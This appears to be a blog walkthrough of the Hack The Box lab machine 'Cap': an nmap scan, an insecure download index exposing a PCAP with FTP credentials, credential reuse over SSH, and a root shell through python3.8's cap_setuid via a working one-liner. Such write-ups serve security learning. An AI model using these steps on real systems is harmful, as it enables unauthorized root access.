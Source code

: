 ```yaml
---
title: "HTB: Cap Walkthrough"
date: 2021-06-07T15:42:00-07:00
categories:
  - blog
  - walkthrough
  - htb
tags:
  - htb
  - htb easy
  - offsec
---
```


There are spoilers below for the Hack The Box box named Cap. Stop reading here if you do not want spoilers!!!

---

# Enumeration

I began searching this box with a standard `nmap` scan:

```
$ sudo nmap -sC -sV -oA nmap/cap 10.129.121.64
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-06 21:26 EDT
Nmap scan report for 10.129.121.64
Host is up (0.091s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 135.21 seconds
```

# Foothold

From the above scan, there are ports `21`, `22`, and `80` open, with port `80` hosting an HTTP server. Visiting port 80 in a web browser has a web UI which shows various statistics about the web server, including allowing you to download the last 5 minutes of network traffic.

Looking at the download from this, it can be seen that the download starts at index 1, simply adjusting the download back by an index will give you a PCAP dump at index 0. When viewing this PCAP dump, it may be seen that it's a recording of an FTP connection with the credentials `nathan:Buck3tH4TF0RM3!`.

Those credentials work to log into the FTP server on the machine, which starts in the nome directory for `nathan`. If you attempt the same FTP credentials via SSH, you'll see that the `nathan` user has the exact same username/password.

# Privesc

Once logged into SSH, the privesc portion took me a bit, but you can eventually find that the executable `/usr/bin/python3.8` has the `cap_setuid` capabilities!

```bash
$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

What this means is that the `python3.8` executable has the ability to set the UID of the process, allowing it to run as a different user. You may read more about [Linux Privilege Escalation using Capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/).

Using the command `/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'` will instantly spawn a root shell.
